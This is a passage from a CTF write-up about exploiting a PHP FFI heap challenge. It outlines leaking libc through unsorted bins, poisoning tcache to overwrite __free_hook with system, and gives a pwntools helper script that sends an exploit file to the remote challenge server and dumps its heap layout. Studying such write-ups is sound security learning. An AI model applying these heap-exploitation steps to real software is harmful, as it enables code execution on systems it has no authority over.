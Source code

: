 Since we have freed some chunks we can get some heap leaks from this. Thus,
this challenge simply became a simple how2heap problem, because we can get
libc leak with unsorted bins, overwrite fd in tcache to allocate in
`__free_hook`  and finally overwrite `__free_hook` to `system`, but is it
really that simple?

## The catch

After creating a working shell payload in local, testing it out in remote
doesn't even get me the correct libc leak and this is where the pain begin. We
don't really have much options since there's no Docker or deployment stuff
from the challenge files, the author does give some hints regarding remote env
but it's not enough to replicate it locally. What we can do instead is create
a helper to take dump of heap layout (because we can get the output from
remote) and here's the script for that.  
```py  
from pwn import *  
from subprocess import check_output  
import ctypes

r = remote("43.129.202.109", 47010)

buf = r.recvline(0)  
suffix, target = re.findall(r'sha256\(XXXX\+(\w+)\) == (\w+)',
buf.decode())[0]  
r.sendlineafter(b">\n", check_output(["./pow", suffix, target]).strip())

with open("hax.php", "rb") as f:  
   r.sendlineafter(b"> \n", b64e(f.read()).encode())  
r.recvline(0)

while True:  
   command = r.recvline(0)  
   if command == b"DONE":  
       break  
   elif command == b"START":  
       dump = []  
       while True:  
           buf = r.recvline(0)  
           if buf == b"END":  
               break  
           b = ctypes.c_uint64(int(buf)).value  
           dump.append(b)  
       for i in range(0, len(dump), 2):  
           if i + 1 == len(dump):  
               print(f"{i * 8:03X} 0x{dump[i]:016X}")  
           else:  
               print(f"{i * 8:03X} 0x{dump[i]:016X} 0x{dump[i+1]:016X}")  
       print(" ================================= ")  
   else:  
       print(command.decode())  
r.interactive()  
```  
This really helps A LOT when taking a dump of heap layout. First we need to
mark our chunks with a recognize-able pattern and start heap dump with
`START\n` and end it with `END\n`, the python script will be the one in charge
to make it looks nicer.  
```php  
   $x = [];  
   array_push($x,  
       creatbuf(0x11),   
       creatbuf(0x11),   
       creatbuf(0x11),   
       creatbuf(0x11)  
```

[1]: https://www.php.net/manual/en/ffi.new.php  